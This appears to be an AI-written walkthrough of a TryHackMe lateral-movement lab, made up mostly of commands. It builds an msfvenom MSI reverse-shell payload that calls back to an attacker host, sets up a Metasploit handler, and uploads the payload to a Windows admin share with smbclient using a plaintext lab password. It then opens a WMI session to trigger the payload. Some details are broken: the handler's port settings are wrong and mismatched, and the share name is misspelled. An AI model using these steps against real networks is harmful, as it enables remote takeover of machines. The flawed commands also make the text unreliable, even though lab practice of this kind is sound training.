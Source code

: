Certainly! Here are the steps with indentations for each section:

1. Connect to the THMJMP2 target system via SSH using the provided credentials:

   ```bash
   ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
   ```

   Replace `<AD Username>` with the actual AD username provided in the exercise.

2. Create an MSI payload using `msfvenom` on your attacker machine. The payload should be a reverse shell to connect back to your machine:

   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=attackerip LPORT=4445 -f msi > msipayload.msi
   ```

   Replace `attackerip` with the IP address of your attacker machine. Note that you should use a different filename for the payload to avoid overwriting someone else's payload.

3. Set up a listener in `msfconsole` to receive the reverse shell:

   ```bash
   msfconsole
   use exploit/multi/handler
   set LHOST lateralmovement
   set RHOST 4444
   set payload windows/x64/shell_reverse_tcp
   exploit
   ```

   Replace `lateralmovement` with the IP address or hostname of your machine.

4. Copy the payload to the `ADMIN$` share on the THM-IIS target system using `smbclient`:

   ```bash
   smbclient -c 'put msipayload.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admins$/' Korine.1994
   ```

   Replace `t1_corine.waters` with the provided username and `Korine.1994` with the corresponding password.

5. Start a WMI session against the THM-IIS system from a PowerShell console:

   ```powershell
   $Session = New-CimSession -ComputerName THM-IIS -Credential (Get-Credential)
   ```

   Replace `THM-IIS` with the hostname or IP address of the THM-IIS system.

6. Trigger the payload in Metasploit to establish a reverse shell:

   ![image5](image5-15.png)

   Ensure that your listener in `msfconsole` is still active and waiting for the connection.

These steps demonstrate the process of creating an MSI payload, copying it to the target system, establishing a WMI session, and triggering the payload to get a reverse shell. Please note that this exercise assumes you have already captured administrative credentials.